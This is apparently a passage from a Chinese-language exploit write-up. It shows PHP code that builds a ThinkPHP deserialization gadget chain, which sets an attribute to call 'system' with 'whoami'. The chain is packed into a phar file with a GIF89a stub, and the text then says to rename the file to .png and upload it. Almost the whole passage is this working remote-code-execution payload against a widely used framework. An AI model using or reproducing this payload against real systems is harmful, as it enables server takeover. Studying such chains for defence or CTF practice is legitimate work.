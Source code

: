 ```php

    trait Attribute
    {
        private $data;
        private $withAttr = ["lin" => "system"];

        public function get()
        {
            $this->data = ["lin" => "whoami"];
        }
    }
}

namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct()
        {
            $this->get();
        }
    }
}

namespace {

    $conver = new think\model\Pivot();
    $a = new think\process\pipes\Windows($conver);


    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($a); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
    $phar->stopBuffering();
}
?>
```

改后缀为png然后上传：
